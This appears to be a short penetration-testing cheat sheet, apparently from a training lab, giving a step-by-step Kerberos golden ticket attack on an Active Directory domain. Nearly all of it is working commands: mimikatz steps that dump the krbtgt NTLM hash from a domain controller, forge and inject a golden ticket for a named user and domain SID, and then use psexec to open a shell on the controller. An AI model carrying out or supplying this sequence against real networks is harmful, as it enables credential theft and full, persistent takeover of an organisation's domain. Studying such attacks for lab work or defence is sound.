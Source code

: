 access to domain controller
then obtain the krbtgt NTLM hash with mimikatz
```
privilege::debug
lsadump::lsa /patch
```

purging existing kerberos tickets
```
kerberos::purge
```

creating a golden ticket using mimikatz
```
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
```

golden ticket injected into memory
```
misc::cmd
```

use psexec.exe
```
.\psexec.exe \\dc1 cmd.exe
```